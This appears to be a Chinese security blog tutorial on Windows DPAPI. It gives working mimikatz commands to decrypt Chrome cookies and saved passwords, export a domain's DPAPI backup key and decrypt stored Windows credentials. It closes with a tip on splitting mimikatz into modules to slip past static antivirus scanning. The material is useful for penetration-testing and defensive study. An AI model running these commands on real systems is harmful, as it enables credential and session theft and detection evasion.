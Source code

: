 > 原文链接: https://www.anquanke.com//post/id/158667 


# Mimikatz之DPAPI学习与实践


                                阅读量   
                                **257522**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01a6d399b3edc87c47.jpg)](https://p4.ssl.qhimg.com/t01a6d399b3edc87c47.jpg)

## 0x00 前言

​ 本文就讲解下Windows下的DPAPI，并且利用mimikatz来解密那些由DPAPI加密的文件。本文使用mimikatz版本2.1.1-20180820，Chrome 版本68.0.3440.106 (Official Build) (64-bit)。



## 0x01 什么是DPAPI

​ DPAPI 英文全称：Data Protection API ，顾名思义就是用来保护数据的接口。这个接口在windows中大量的使用来加密数据，比如chrome的cookies和login data。

​ 更多的详情可以看[这篇文章](http://vztekoverflow.com/2018/07/31/tbal-dpapi-backdoor/)。 在这里我大致的把这篇文章总结下也是更加详细的介绍DPAPI：

​ 1.DPAPI 使用了叫做`Master Key`的东西，用来解密和加密。`Master Key` 并不会存在在磁盘上，是通过用户的密码HASH加密生成。

​ 2.`Master Key` 的第一种实现方式用用户NTLM Hash来加密。由于NTLM Hash在Windows中有着各种重要的作用，而且NTLM Hash是存储在SAM文件中，只要攻击者获取到Hash就可以用来生成`Master Key`来解密数据了。所以为了防止这样的事，就有了第二种：直接用用户密码生成，函数：`SHA‑1(UTF16LE(user_password))` 。

就算攻击者获取到NTLM，如果不能解密出用户的密码不能生成`Master Key`。

​ 3.文章中还提到了`ARSO`和`TBAL` 。ARSO 英文全称：Automatic Restart Sign-On 。TBAL 文中作者猜测AL是Auto Logon，不清楚TB什么意思。但是评论中有个猜测是Trusted Boot Auto Logon。都是在WIndows 8和Windows 10中才添加的新特性，就是保存了用户会话，恢复到重启之前的状态，也就是在重启之前密码都保存在磁盘中，具体可以看看文章的详细说明。

​ 4.视频演示了整个过程，关闭虚拟机，通过挂载磁盘的方式，来读取security与system文件获取TBAL中保存的SHA1 HASH，之后通过这个HASH与用户的GUID就可以解密得到`Master Key`。其中也有这样一句话：`but if it were a real computer, imagine physically connecting the HDD to your machine.` 所以~~

微软[官方文章](https://msdn.microsoft.com/en-us/library/ms995355.aspx%20userpassword+sha-1+random%2016%20bytes+4000%20pbkdf2)更加详细介绍了生成`Master key`与加密`Master Key`，及怎么备份。而上面第四步就是解密，我这里利用一个在线工具演示下生成`Matser key`。

[![](https://p5.ssl.qhimg.com/t018f1da79c3422ef81.png)](https://p5.ssl.qhimg.com/t018f1da79c3422ef81.png)



## 0x02 DPAPI的利用

### <a class="reference-link" name="1.Chrome%20Cookies/Login%20Data"></a>1.Chrome Cookies/Login Data

本地用户登录时，解密Cookies：

`dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect`

[![](https://p0.ssl.qhimg.com/t013b6c14d4b193dcfe.png)](https://p0.ssl.qhimg.com/t013b6c14d4b193dcfe.png)

如果通过某些方式从其它电脑获取到cookie到本地：

先执行上面这条命令看看，会报错：

[![](https://p2.ssl.qhimg.com/t015f39ba8a924da60f.png)](https://p2.ssl.qhimg.com/t015f39ba8a924da60f.png)

提示需要GUID `{`219d25e6-27f5-4754-8bcb-2aa77df53b68`}` 这个用户的`Master key`才能解密，所以在你拿回这个cookie文件时，要把那个机器的masterkey导出一下，两个命令`privilege::debug` `sekurlsa::dpapi`：

[![](https://p2.ssl.qhimg.com/t01d982ef82ed8d2d6a.png)](https://p2.ssl.qhimg.com/t01d982ef82ed8d2d6a.png)

接下来就`dpapi::chrome /in:"c:tempCookies" /masterkey:上图的masterkey值 /unprotect`

[![](https://p1.ssl.qhimg.com/t01de2424f08fc7b540.png)](https://p1.ssl.qhimg.com/t01de2424f08fc7b540.png)

而如果是域用户的话，是由域用户的master key就是由域的DPAPI key来保护的，`lsadump::backupkeys /system:DC CONTROLLER /export`会得到一个PVK文件，可以用来解密所有域用户的Master Key，而且这个key是不会改变的。`dpapi::masterkey /in:"C:UsersxxxxxAppDataRoamingMicrosoftProtectsid值ca748af3–8b95–40ae-8134-cb9534762688" /pvk:导出的PVK文件`这里就可以解密得到域用户的Master Key值。然后跟上面一样`dpapi::chrome /in:Cookies /masterkey:a3fv34aedd7...`，这样就能解密Cookies的内容了。

导出pvk:

[![](https://p5.ssl.qhimg.com/t01f4b3d06042a3b416.png)](https://p5.ssl.qhimg.com/t01f4b3d06042a3b416.png)

利用PVK解密得到masterkey值，后面一样解密就是了：

[![](https://p5.ssl.qhimg.com/t0162bd9a2beda398ca.png)](https://p5.ssl.qhimg.com/t0162bd9a2beda398ca.png)

解密保存的密码跟上面类似，把传入文件改成login data：

[![](https://p0.ssl.qhimg.com/t011dfaf304ecbf97da.png)](https://p0.ssl.qhimg.com/t011dfaf304ecbf97da.png)

### <a class="reference-link" name="2.Rdg%20%E6%96%87%E4%BB%B6"></a>2.Rdg 文件

最新release版本添加了解密rdg的功能，windows中`C:WindowsSystem32configsystemprofileAppDataLocalMicrosoftCredentialsxxx`中保存的信息与WIFI密码的保存都是利用了DPAPI来加密：

[![](https://p3.ssl.qhimg.com/t01dbb79d67fea8fcb1.png)](https://p3.ssl.qhimg.com/t01dbb79d67fea8fcb1.png)

先向DC进行RPC查询出key，利用key，`dpapi::cred /in:C:UsersxxAppDataLocalMicrosoftCredentialsxxxxx /unprotect /masterkey:X`解密Credentials下保存的凭据：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t017b6b8f90bc6b6be4.png)



## 0X03 总结

现在mimikatz功能越来越多，并不是所有功能都会在当时的渗透环境中使用，其实大家完全可以把其中每个模块单独分出来用，这样体积可以减少，而且还可以过下静态查杀。windows下还有很多接口是MSDN中没有文档或者很少文档的，很多大佬应该都FUZZ出来一些了。可以看看这位[BLOG](http://www.hexacorn.com/blog/) 经常有windows的一些TRICKS。
